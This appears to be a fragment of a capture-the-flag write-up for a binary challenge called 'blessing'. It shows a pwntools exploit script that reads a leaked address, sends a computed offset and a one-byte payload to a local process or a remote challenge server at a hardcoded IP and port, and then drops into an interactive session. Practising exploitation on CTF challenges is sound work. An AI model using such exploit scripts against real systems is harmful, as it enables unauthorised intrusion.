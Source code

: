

    parser = argparse.ArgumentParser(description='Exploit script')
    parser.add_argument('remote', nargs='?', default=None, help='Run the exploit on a remote server')
    args = parser.parse_args()

    exe = ELF('./blessing_patched', checksec=False)
    #libc = ELF('./libc-2.23.so', checksec=False)
    #ld = ELF('./ld-linux-x86-64.so.2', checksec=False)
    #libc = exe.libc


    context.binary = exe
    context.terminal = ['wt.exe','-d', '.', 'wsl.exe', '-d', 'Ubuntu-22.04']

    info = lambda msg: log.info(msg)
    sla = lambda msg, data: p.sendlineafter(msg, data)
    sa = lambda msg, data: p.sendafter(msg, data)
    sl = lambda data: p.sendline(data)
    s = lambda data: p.send(data)
    sln = lambda msg, num: sla(msg, str(num).encode())
    sn = lambda msg, num: sa(msg, str(num).encode())

    def GDB():
        if args.remote is None:
            gdb.attach(p, gdbscript='''
            b* main+273
            b*main+353

            c
            ''')
            input()

    if args.remote:
        p = remote('94.237.54.189',47821)  
    else:
        p = process(exe.path) 



    #GDB()
    p.recvuntil(b'this: ')

    v6 = int(p.recv(14),16)
    print('v6 = ' + hex(v6))

    offset = v6+1
    sl(f'{offset}')

    pl = flat(b'a')
    s(pl)



    p.interactive()



Strategit

![image](https://hackmd.io/_uploads/SkvRisJTyg.png)
